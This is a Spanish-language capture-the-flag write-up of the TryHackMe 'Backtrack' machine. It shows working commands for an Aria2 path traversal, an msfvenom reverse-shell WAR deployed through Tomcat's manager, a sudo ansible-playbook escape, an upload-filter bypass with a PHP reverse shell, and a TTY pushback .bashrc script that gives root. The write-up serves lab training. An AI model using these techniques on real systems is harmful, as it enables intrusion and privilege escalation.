

## Reconocimiento
Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```
> nmap -p- -sVC --min-rate 5000 10.10.185.3 -Pn -n -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-12 19:20 CEST
Nmap scan report for 10.10.185.3
Host is up (0.20s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 55:41:5a:65:e3:d8:c2:4f:59:a1:68:b6:79:8a:e3:fb (RSA)
|   256 79:8a:12:64:cc:5c:d2:b7:38:dd:4f:07:76:4f:92:e2 (ECDSA)
|_  256 ce:e2:28:01:5f:0f:6a:77:df:1e:0a:79:df:9a:54:47 (ED25519)
6800/tcp open  http            aria2 downloader JSON-RPC
|_http-title: Site doesn't have a title.
8080/tcp open  http            Apache Tomcat 8.5.93
|_http-title: Apache Tomcat/8.5.93
|_http-favicon: Apache Tomcat
8888/tcp open  sun-answerbook?
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/html
|     Date: Sat, 12 Oct 2024 17:20:50 GMT
|     Connection: close
|     <!doctype html>
|     <html>
|     <head>
|     <link rel="icon" href="../favicon.ico" />
|     <meta charset="utf-8">
|     <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <meta name="theme-color" content="#0A8476">
|     <title ng-bind="$root.pageTitle">Aria2 WebUI</title>
|     <link rel="stylesheet" type="text/css" href="https://fonts.googleapis.com/css?family=Lato:400,700">
```

###### Nota: Esta máquina da bastantes problemas al cabo de 30 minutos, se vuelve muy lenta e inestable, de ahí la diferencia de direcciones IP

Accedemos al sitio web por el puerto 8080, encontramos la página por defecto de Apache Tomcat:


Además, también vemos que está accesible el panel de administración, dudo que sea casualidad, probamos credenciales por defecto sin éxito:


Los puertos *6800* y *8888*, están relacionados con un gestor de descarga ligero llamado **Aria2**:


Buscando exploits relacionados con **Aria2**, se logra enumerar dos interesantes:
- [Aria2 Arbitrary File Write Vulnerability](https://github.com/vulhub/vulhub/blob/master/aria2/rce/README.m)
- [Aria2 Path traversal](https://gist.github.com/JafarAkhondali/528fe6c548b78f454911fb866b23f66e)

Tras revisar el primero, no logramos reproducirlo para conseguir el RCE, así que optamos por el segundo exploit, del cual nos permite leer ficheros internos:

```
> curl --path-as-is http://10.10.185.3:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:112:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:122:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:1002:1002::/opt/tomcat:/bin/false
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bash
```

## Explotación
Tras identificar el punto de entrada, recordamos que descubrimos el panel de **Apache Tomcat**, así que buscamos todas las rutas posibles para leer el fichero "*tomcat_users.xml*", ya que este fichero almacena las credenciales en texto plano:
```
> curl --path-as-is http://10.10.185.3:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
  <user username="tomcat" password="**********" roles="manager-script"/>

</tomcat-users>
```

Reutilizamos las credenciales sobre el panel y logramos acceder sin problemas:


Creamos un fichero *WAR* con **msfvenom**:
```
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.41.86 LPORT=443 -f war > m3n0s.war
Payload size: 1094 bytes
Final size of war file: 1094 bytes
```

Pero parece que no nos va a resultar tan fácil, debido a que no tenemos permitido el acceso sobre algunas rutas, incluyendo el fichero que dispone del formulario de subida con formato *WAR*:


Aunque no se tenga acceso a ese apartado, eso no significa que no tengamos permisos para subir el fichero en la ruta correspondiente, por lo que ejecutamos un **curl** para subir el fichero *m3n0s.war* malicioso al servidor:
```
> curl --user 'tomcat:************' --upload-file m3n0s.war "http://10.10.185.3:8080/manager/text/deploy?path=/m3n0s.war"
OK - Deployed application at context path [/m3n0s.war]
```

Nos ponemos en escucha al puerto 443 y accedemos a la ruta de nuestro fichero *WAR* malicioso, logramos ganar acceso a la máquina con el usuario *Tomcat*:


Una vez dentro, buscamos el fichero flag1.txt y leemos su contenido:
```
tomcat@Backtrack:/$ find / -name flag1.txt 2>/dev/null
find / -name flag1.txt 2>/dev/null
/opt/tomcat/flag1.txt
tomcat@Backtrack:/$ cat /opt/tomcat/flag1.txt
cat /opt/tomcat/flag1.txt
THM{*********************}
tomcat@Backtrack:/$ 
```

Continuamos con la enumeración de la máquina, ya que debemos de comprometer a dos usuarios y realizar la escalada de privilegios a root.

Lanzamos la herramienta *linpeas.sh* y enumeramos un servicio web interno por el puerto 80 y un *MySQL* por el 3306, de momento continuamos con la enumeración, ya que no disponemos de credenciales para acceder a los servicios expuestos:
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                               
tcp        0      0 127.0.0.1:80            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:6800            0.0.0.0:*               LISTEN      478/aria2c          
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      572/java            
tcp6       0      0 :::6800                 :::*                    LISTEN      478/aria2c          
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::8888                 :::*                    LISTEN      493/node            
:8005          :::*                    LISTEN      572/java                             
```

También se identifica que podemos ejecutar **ansible-playbook** con el usuario *wilbur*.
```
User tomcat may run the following commands on Backtrack:
    (wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.yml
```

Este tipo de escalada de privilegios nos pueden sonar de otras máquinas, también hay información en [Gtfobins](https://gtfobins.github.io/gtfobins/ansible-playbook/), pero no tenemos acceso a la ruta *"/opt/test_playbooks*", pero al llevar '*', esto nos permite hacer un path traversal para que ejecute un *.yml* malicioso y generado por nosotros.
```
tomcat@Backtrack:/dev/shm$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > /dev/shm/m3.yml   
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > /dev/shm/m3.yml
tomcat@Backtrack:/dev/shm$ cat m3.yml
cat m3.yml
[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]
tomcat@Backtrack:/dev/shm$ 
tomcat@Backtrack:/dev/shm$ chmod 777 /dev/shm/m3.yml
chmod 777 /dev/shm/m3.yml

tomcat@Backtrack:/dev/shm$ sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../../../../dev/shm/*.yml
<ok /opt/test_playbooks/../../../../../dev/shm/*.yml
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'
...<SNIP>...

PLAY [localhost] ***************************************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [shell] *******************************************************************
$ id
id
uid=1004(wilbur) gid=1004(wilbur) groups=1004(wilbur)
$ python3 -c "import pty; pty.spawn('/bin/bash')"
python3 -c "import pty; pty.spawn('/bin/bash')"
wilbur@Backtrack:/dev/shm$ ls -lna /home/wilbur
ls -lna /home/wilbur
total 28
drwxrwx--- 3 1004 1004 4096 Oct 13 15:03 .
drwxr-xr-x 4    0    0 4096 Mar  9  2024 ..
drwxrwxr-x 3 1004 1004 4096 Oct 13 15:03 .ansible
lrwxrwxrwx 1    0    0    9 Mar  9  2024 .bash_history -> /dev/null
-rw-r--r-- 1 1004 1004 3771 Mar  9  2024 .bashrc
-rw------- 1 1004 1004   48 Mar  9  2024 .just_in_case.txt
lrwxrwxrwx 1    0    0    9 Mar  9  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 1004 1004 1010 Mar  9  2024 .profile
-rw------- 1 1004 1004  461 Mar  9  2024 from_orville.txt
```

Logramos acceder al directorio de *wilbur*, vemos que tiene dos ficheros interesantes para continuar con la explotación de la máquina.

#### Credenciales de wilbur en el fichero .just_in_case.txt:
```
wilbur@Backtrack:/dev/shm$ cat /home/wilbur/.just_in_case.txt
cat /home/wilbur/.just_in_case.txt
in case i forget :

wilbur:****************
wilbur@Backtrack:/dev/shm$ 
```

El otro fichero llamado "from_orville.txt", contempla un mensaje para *Wilbur*, en el que le está indicando que hay una aplicación web interna y que el sistema de registro está suspendido, pero nos ha prestado sus credenciales de acceso ;).
```
wilbur@Backtrack:/dev/shm$ cat /home/wilbur/from_orville.txt
cat /home/wilbur/from_orville.txt
Hey Wilbur, it's Orville. I just finished developing the image gallery web app I told you about last week, and it works just fine. However, I'd like you to test it yourself to see if everything works and secure.
I've started the app locally so you can access it from here. I've disabled registrations for now because it's still in the testing phase. Here are the credentials you can use to log in:

email : orville@backtrack.thm
password : ******************
wilbur@Backtrack:/dev/shm$ 
```

Recordamos que anteriormente vimos que corrían un servicio web por el puerto 80 y el servicio **MySQL**, así que hacemos un port forwarding para abrir el puerto 80 sobre nuestra máquina por **SSH**:
```
> ssh -L 80:127.0.0.1:80 wilbur@10.10.104.198
wilbur@10.10.104.198's password: 
Last login: Sun Oct 13 15:07:04 2024 from 10.9.41.86
-Xmx1024M: command not found
wilbur@Backtrack:~$ 
```

Accedemos al sitio web, utilizamos las credenciales de *Orville* e identificamos una subida de ficheros de imágenes:


Probamos a subir una reverse shell con un fichero PHP, pero no nos lo van a poner tan fácil, debido a que el aplicativo contempla una protección que impide subir ficheros que no sean de tipo imagen:


Evidenciamos que la protección se activa en la extensión del fichero y no el tipo de contenido, también detectamos que la protección no actúa si existe una extensión al principio del fichero (Ej. fichero*.png*.php):


Pero aún logrando subir el fichero, este no se puede ejecutar y es descargado como un binario:


Buscamos y leemos el fichero de configuración de **apache2**, vemos que hay una directiva que impide ejecutar código PHP sobre el directorio "*uploads*", por eso es tratado como un binario descargable:
```
wilbur@Backtrack:~$ find / -name apache2.conf 2>/dev/null
/etc/apache2/apache2.conf
wilbur@Backtrack:~$ cat /etc/apache2/apache2.conf

<Directory />
        Options FollowSymLinks
        AllowOverride None
        Require all denied
</Directory>

<Directory /usr/share>
        AllowOverride None
        Require all granted
</Directory>

<Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
</Directory>
<Directory /var/www/html/uploads>
        php_flag engine off
        AddType application/octet-stream php php3 php4 php5 phtml phps phar phpt
</Directory>
#<Directory /srv/>
#       Options Indexes FollowSymLinks
#       AllowOverride None
#       Require all granted
#</Directory>
```

Tras ver la anterior directiva, la solución es tan sencilla como realizar un path traversal a un directorio atrás, logrando evitar la restricción con un doble codificado de URL:


#### Prueba de concepto


A continuación, nos ponemos en escucha por el puerto 443 y ejecutamos una reverse shell con nuestro fichero *m3.png.phar*:


Logramos acceder al servidor con el usuario *Orville* y leemos el fichero *flag2.txt*:
```


> sudo rlwrap nc -nvlp 443
listening on [any] 443 ...
connect to [10.9.41.86] from (UNKNOWN) [10.10.104.198] 60158
id
uid=1003(orville) gid=1003(orville) groups=1003(orville)
python3 -c "import pty; pty.spawn('/bin/bash')"
ls
ls
orville@Backtrack:/var/www/html$ ls
css            includes   login.php   m3.png.phar  register.php
dashboard.php  index.php  logout.php  navbar.php   uploads
orville@Backtrack:/var/www/html$ ls -lna /home/orville
ls -lna /home/orville
total 56
drwxrwx--- 2 1003 1003  4096 Oct 13 15:46 .
drwxr-xr-x 4    0    0  4096 Mar  9  2024 ..
lrwxrwxrwx 1    0    0     9 Mar  9  2024 .bash_history -> /dev/null
-rw-r--r-- 1 1003 1003  3771 Mar  9  2024 .bashrc
lrwxrwxrwx 1    0    0     9 Mar  9  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 1003 1003   807 Mar  9  2024 .profile
-rw------- 1 1003 1003    38 Mar  9  2024 flag2.txt
-rwx------ 1 1003 1003 34641 Oct 13 15:46 web_snapshot.zip
orville@Backtrack:/var/www/html$ cat /home/orville/flag2.txt
cat /home/orville/flag2.txt
THM{**************************}
orville@Backtrack:/var/www/html$ 
```

###### Nota: Como no encontramos credenciales del usuario *Orville*, creamos la carpeta *.ssh* y el fichero *authorized_keys* con nuestra clave pública, con la idea de tener una conexión más estable (ya que la máquina va peor por cada minuto que pasa :()


## Escalada de privilegios
Ya no quedan más usuarios, solo root, tampoco vemos más información en el home, aunque nos llama la atención el fichero "*web_snapshot.zip*", parece una copia de seguridad.
```
orville@Backtrack:/var/www/html$ ls -lna /home/orville
ls -lna /home/orville
total 56
drwxrwx--- 2 1003 1003  4096 Oct 13 15:46 .
drwxr-xr-x 4    0    0  4096 Mar  9  2024 ..
lrwxrwxrwx 1    0    0     9 Mar  9  2024 .bash_history -> /dev/null
-rw-r--r-- 1 1003 1003  3771 Mar  9  2024 .bashrc
lrwxrwxrwx 1    0    0     9 Mar  9  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 1003 1003   807 Mar  9  2024 .profile
-rw------- 1 1003 1003    38 Mar  9  2024 flag2.txt
-rwx------ 1 1003 1003 34641 Oct 13 15:46 web_snapshot.zip
```

Ejecutamos [**pspy**](https://github.com/DominicBreuker/pspy), vemos que hay un bloque de procesos que se está ejecutando cada cierto tiempo, este proceso involucra la backup del fichero "*web_snapshot.zip*". También se muestra arriba que el usuario *root (UID=0)* tiene una sesión interactiva abierta, tras otra sesión interactiva del usuario Orville, por lo que podría desencadenar un ataque *TTY Pushback*.


La idea es la siguiente, en ambas sesiones se va a ejecutar el fichero "*.bashrc*", por lo que si logramos inyectar código malicioso, conseguiríamos que el usuario root lo ejecute al abrir su sesión interactiva en el proceso automatizado.

Creamos un fichero *m3.sh* con el siguiente contenido, esto nos permitirá disponer de una bash con permisos administrativo:
```
#!/bin/bash

kill -SIGSTOP $$

for char in "chmod u+s /bin/bash"; do
    printf "$char" > /dev/tty
done

printf "\n" > /dev/tty
```

Después, le damos permisos de ejecución e insertamos en el fichero "*.bashrc*" del usuario *Orville*:
```
orville@Backtrack:/dev/shm$ chmod +x m3.sh 
orville@Backtrack:/dev/shm$ pwd
/dev/shm
orville@Backtrack:/dev/shm$ echo '/dev/shm/m3.sh' >> /home/orville/.bashrc 
```

Comprobamos los permisos del binario bash, esperamos unos minutos y vemos como ya han cambiado:


Ahora utilizamos el siguiente comando para otorgarnos acceso de root y leer la última flag:
```
orville@Backtrack:/dev/shm$ /bin/bash -p
bash-5.0# id
uid=1003(orville) gid=1003(orville) euid=0(root) egid=0(root) groups=0(root),1003(orville)
bash-5.0# ls -lna /root
total 40
drwx------  6 0 0 4096 Mar 13  2024 .
drwxr-xr-x 20 0 0 4096 Mar 13  2024 ..
lrwxrwxrwx  1 0 0    9 Mar  9  2024 .bash_history -> /dev/null
-rw-r--r--  1 0 0 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 0 0 4096 Mar  9  2024 .cache
drwxr-xr-x  3 0 0 4096 Mar  9  2024 .local
lrwxrwxrwx  1 0 0    9 Mar  9  2024 .mysql_history -> /dev/null
-rw-r--r--  1 0 0  161 Dec  5  2019 .profile
drwx------  2 0 0 4096 Mar  9  2024 .ssh
-rw-------  1 0 0 1360 Mar  9  2024 flag3.txt
-rwx------  1 0 0  815 Mar 13  2024 manage.py
drwx------  3 0 0 4096 Mar  9  2024 snap
bash-5.0# cat /root/flag3.txt

██████╗░░█████╗░░█████╗░██╗░░██╗████████╗██████╗░░█████╗░░█████╗░██╗░░██╗
██╔══██╗██╔══██╗██╔══██╗██║░██╔╝╚══██╔══╝██╔══██╗██╔══██╗██╔══██╗██║░██╔╝
██████╦╝███████║██║░░╚═╝█████═╝░░░░██║░░░██████╔╝███████║██║░░╚═╝█████═╝░
██╔══██╗██╔══██║██║░░██╗██╔═██╗░░░░██║░░░██╔══██╗██╔══██║██║░░██╗██╔═██╗░
██████╦╝██║░░██║╚█████╔╝██║░╚██╗░░░██║░░░██║░░██║██║░░██║╚█████╔╝██║░╚██╗
╚═════╝░╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░╚═╝╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝

THM{**********************}
bash-5.0# 
```

¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!